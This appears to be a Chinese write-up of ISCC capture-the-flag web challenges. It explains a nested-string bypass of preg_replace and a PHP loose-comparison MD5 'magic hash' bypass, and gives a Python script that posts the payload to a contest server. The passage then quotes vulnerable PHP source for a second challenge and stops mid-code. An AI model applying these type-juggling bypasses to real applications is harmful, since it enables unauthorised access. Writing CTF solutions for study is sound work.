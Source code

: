 
preg_replace部分构造嵌套字符串incantation=II_am_the_spirit_of_fire _am_the_spirit_of_fire

 

md5($md5) == md5($secret_power) && $md5 !== $secret_power是弱比较，构造科学计数法绕过：

md5 = s1836677006a

secret_power = s1665632922a
```python
import requests
 
url = "http://112.126.73.173:9999/isflag.php"
payload = {
"nezha": '{"incantation": "II_am_the_spirit_of_fire_am_the_spirit_of_fire", "md5": " s1836677006a ", "power": " s1665632922a "}'
}
 
response = requests.post(url, data=payload)
print(response.text)
```
获得明=suoom 李=woolihc ISCC{早晴枫林红}

其中“明”=日+月=sun+moon可以看作两个单词首尾相接，李=木+子=wood+child同理

可以得到flag

sun ten sun green wood wind wood wood silk work

最终flag为ISCC{suetsueergwooniwwoooowsilrow}

### 回归基本功

根据提示“用户代理”选择合适的英雄“高级工程师佛耶格”

​                               

输入后进入http://112.126.73.173:9998/Q2rN6h3YkZB9fL5j2WmX.php

```python
<?php
show_source(__FILE__);
include('E8sP4g7UvT.php');
$a=$_GET['huigui_jibengong.1'];
$b=$_GET['huigui_jibengong.2'];
$c=$_GET['huigui_jibengong.3'];
$jiben = is_numeric($a) and preg_match('/^[a-z0-9]+$/',$b);
if($jiben==1)
{
if(intval($b) == 'jibengong')
{
if(strpos($b, "0")==0)
{
echo '基本功不够扎实啊！';
echo '<br>';
echo '还得再练！'; 
}
else
{
$$c = $a;
parse_str($b,$huiguiflag);
if($huiguiflag[$jibengong]==md5($c))
{
echo $flag;
}
else{
echo '基本功不够扎实啊！';
echo '<br>';
echo '还得再练！'; 
```